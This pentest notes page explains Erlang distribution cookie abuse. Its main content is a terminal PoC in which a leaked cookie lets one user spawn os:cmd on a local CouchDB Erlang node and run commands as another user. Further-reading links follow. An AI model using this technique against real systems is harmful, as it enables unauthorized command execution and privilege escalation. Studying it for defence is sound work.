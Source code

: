 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an Erlang node is leaked, then you can take advantage of this to achieve RCE.  Typically this will be via local port tcp/4369.  The following PoC connects to a local node with a cookie of cookieval, and then spawns a command on an adjacent node with the same cookie value.  If the adjacent node is run by `mainuser` then we achieve privilege escalation.

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**Further Reading**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

## Cookie Bruteforcing

**Further Reading**



[https://www.broot.ca/erlang-remsh-is-dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)

[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html)

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://blog.voltone.net/post/4](https://blog.voltone.net/post/4)

[https://blog.voltone.net/post/12](https://blog.voltone.net/post/12)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

